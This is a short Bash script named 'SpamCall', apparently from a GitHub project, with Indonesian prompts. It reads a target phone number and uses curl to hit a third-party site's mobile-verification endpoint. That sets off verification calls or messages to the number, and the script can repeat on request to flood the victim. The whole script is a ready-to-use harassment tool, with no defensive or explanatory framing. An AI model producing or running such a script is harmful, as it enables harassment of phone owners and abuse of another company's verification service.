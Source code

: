 # SpamCall

clear

figlet SpamCall | lolcat

echo "<=======================================>" | lolcat

echo "[•] Author : Adam official" | lolcat

echo "[•] Github : https://github.com/adam894" | lolcat

echo "<=======================================>" | lolcat

date | lolcat

echo

echo "Cara : masukkan nomor dengan awalan 8xxxxxx"

read -p "[•] Number: " nomor

link="https://id.jagreward.com/member/verify-mobile/$nomor"

curl -s $link

read -p "Lagi? (y/n) => " pilih

if [ $pilih == "y" ]

then

    bash SpamCall.sh

elif [ $pilih == "n" ]

then

    echo "terimakasih telah menggunakan tools ini!!!"

fi


